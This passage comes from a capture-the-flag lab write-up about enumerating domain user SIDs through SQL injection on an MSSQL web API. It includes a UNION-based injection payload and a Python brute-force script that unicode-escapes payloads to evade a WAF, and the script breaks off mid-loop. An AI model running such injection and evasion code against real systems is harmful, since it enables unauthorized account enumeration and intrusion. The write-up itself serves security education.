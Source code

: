 The RID is `0x0105000000000005150000001c00d1bcd181f1492bdfc23600020000`, which makes the domain SID `0x0105000000000005150000001c00d1bcd181f1492bdfc236`.

#### Build a User RID

I know the default administrator is RID 500. So I can make this RID by taking 500, converting to hex (0x1f4), padding it to 4 bytes (0x000001f4), and reversing the byte order (0xf4010000). So the administrator RID should be `0x0105000000000005150000001c00d1bcd181f1492bdfc236f4010000`. To check, I’ll run `SUSER_SNAME`:

```

test' UNION ALL SELECT 58,58,58,SUSER_SNAME(0x0105000000000005150000001c00d1bcd181f1492bdfc236f4010000),58-- gxQm

```

Results in:

![image-20200331065317670](https://0xdfimages.gitlab.io/img/image-20200331065317670.png)

It worked!

#### Script Brute Force

I’ll need a script to brute force across the possible SIDs that could be in use by users. What I came up with was this:

```

#!/usr/bin/env python3

import binascii
import requests
import struct
import sys
import time

payload_template = """test' UNION ALL SELECT 58,58,58,{},58-- -"""

def unicode_escape(s):
    return "".join([r"\u{:04x}".format(ord(c)) for c in s])

def issue_query(sql):
    while True:
        resp = requests.post(
            "http://10.10.10.179/api/getColleagues",
            data='{"name":"' + unicode_escape(payload_template.format(sql)) + '"}',
            headers={"Content-type": "text/json; charset=utf-8"},
            proxies={"http": "http://127.0.0.1:8080"},
        )
        if resp.status_code != 403:
            break
        sys.stdout.write("\r[-] Triggered WAF. Sleeping for 30 seconds")
        time.sleep(30)
    return resp.json()[0]["email"]

print("[*] Finding domain")
domain = issue_query("DEFAULT_DOMAIN()")
print(f"[+] Found domain: {domain}")

print("[*] Finding Domain SID")
sid = issue_query(f"master.dbo.fn_varbintohexstr(SUSER_SID('{domain}\Domain Admins'))")[:-8]
print(f"[+] Found SID for {domain} domain: {sid}")

for i in range(500, 10500):
    sys.stdout.write(f"\r[*] Checking SID {i}" + " " * 50)
```
